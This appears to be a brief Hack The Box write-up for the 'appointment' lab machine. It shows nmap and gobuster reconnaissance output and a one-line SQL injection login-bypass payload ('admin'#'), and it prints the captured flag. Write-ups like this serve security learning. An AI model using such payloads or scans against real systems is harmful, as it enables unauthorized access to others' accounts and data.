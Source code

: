 ```yaml
---
title: "HTB: appointment"
date: 2022-04-29T21:54:03-07:00
draft: false
tags: ["web"]
categories: ["htb"]
# description: "This is a description"
---
```


A simple writeup for the `appointment` box from HTB

<!--more-->

### nmap
Strating with an nmap.

```
# Nmap 7.92 scan initiated Fri Apr 29 16:22:44 2022 as: nmap -sV -sC -oA nmap/appointment 10.129.22.167
Nmap scan report for 10.129.22.167
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 29 16:22:56 2022 -- 1 IP address (1 host up) scanned in 12.20 seconds
```

Nothing too interesting here.

### gobuster
Pivoted to gobuster to see subdirectories:\
`gobuster dir -u http://10.129.22.167 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

```
/images               (Status: 301) [Size: 315] [--> http://10.129.22.167/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.22.167/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.22.167/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.22.167/vendor/]
```

### sqlinjection

After looking at the webage, the input forms seemed potentially vulnerable to sqlinjection.

`uname=admin'#` payload granted the flag.

---
**flag:**
`e3d0796d002a446c0e622226f42e9672`